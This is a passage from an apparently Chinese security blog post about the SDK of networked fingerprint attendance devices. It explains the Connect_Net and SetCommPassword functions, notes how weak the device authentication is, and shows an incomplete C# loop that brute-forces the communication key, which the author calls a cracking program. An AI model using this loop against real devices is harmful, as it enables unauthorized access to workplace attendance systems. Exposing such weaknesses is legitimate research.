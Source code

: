 指纹考勤联机部分的流程 SDK 文档如下：

![2014060220192293626_jpg.jpg](img/img20_u18_jpg.jpg)

远程网络认证部分关键函数有两个：

1.Connect_Net

VARIANT_BOOL Connect_Net( [in] BSTR IPAdd, [in] long Portl)

布尔类型的函数

IPAdd,(远程设备 IP 地址)和 Port(设备认证端口)

2.SetCommPassword

VARIANT_BOOL SetCommPassword( [in] long CommKey)

CommKey 为密码（小声说一句，可能是为了兼容或者开发方便，认证方式实在很弱）。

整个连接过程不过很短的几句代码，加个循环就能成为破解密码程序:

```
private void CrackerConnect() {
    zkemkeeper.CZKEMClass axCZKEM1 = new zkemkeeper.CZKEMClass();
    int ifcommnetpass = 0;
    for (j = 0; j < 24; j++) {
        key = comkeys[j];
        pwd = axCZKEM1.SetCommPassword(key);
        if (pwd == true) {
            bIsConnected = axCZKEM1.Connect_Net(txtIP.Text, Convert.ToInt32(txtPort.Text));
            if (bIsConnected == true) {
                btnConnect.BeginInvoke(new System.EventHandler(SetbtnConnectTextSec));
                lblState.BeginInvoke(new System.EventHandler(SetlblStateTextSec), comkeystr[j]);
                iMachineNumber = 1;//In fact,when you are using the tcp/ip communication,this parameter will be ignored,that is any integer will all right.Here we use 1\. 
```